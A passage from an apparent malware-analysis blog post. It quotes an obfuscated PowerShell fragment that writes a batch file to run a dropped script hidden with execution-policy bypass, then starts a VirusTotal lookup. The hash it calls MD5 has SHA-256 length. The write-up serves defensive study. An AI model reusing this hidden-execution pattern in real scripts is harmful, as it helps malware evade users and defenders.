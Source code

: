 4. **Batch File Creation**:
   - The script also creates a batch file that runs a PowerShell script hidden from the user:
     ```powershell
     ${CO`Nt`eNT} = @'
     @echo off
     cmd /c Powershell -noP -W hidden -ep byPass -NONI "C:\ProgramData\Music\Visuals\VsLabsData.ps1"
     '@
     ```


#### Conclusion

The script appears to focus on creating a directory, writing a VBScript, and executing a PowerShell script in a hidden manner. The presence of the hex values in variables `${cake}` and `${oven}` suggests the intent to handle executable content, which further underscores the potential for malicious use. The script's design to evade detection during analysis, highlighting the importance of thorough examination and deobfuscation in malware investigation.



## Dynamics Analysis with VirusTotal

Let's see if something related to this discovery can be found using the same MD5 hash **2e63fec5163d85af2caf87e31459a0d6cca4cdb3d65a797e00a62b0c2b76acd7** on VirusTotal as shown in Fig 9.

![VirusTotal Scan Results](/assets/images/zoom/VirusTotal_scan_results.png)
*Figure 9: VirusTotal Scan Results*
